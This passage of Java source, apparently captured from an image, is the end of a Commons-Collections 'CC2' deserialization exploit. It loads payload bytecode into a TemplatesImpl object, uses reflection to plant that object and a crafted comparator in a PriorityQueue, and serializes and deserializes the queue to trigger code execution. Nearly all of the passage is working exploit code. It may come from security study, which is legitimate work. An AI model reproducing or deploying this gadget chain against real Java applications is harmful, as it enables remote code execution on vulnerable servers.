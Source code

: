 ```java
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name");
        setFieldValue(templates, "_class", null);

        Object[] queue_array = new Object[]{templates,1};

        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue_field.setAccessible(true);
        queue_field.set(queue,queue_array);

        Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
        size.setAccessible(true);
        size.set(queue,2);


        Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue,comparator);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }

    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }


}
```
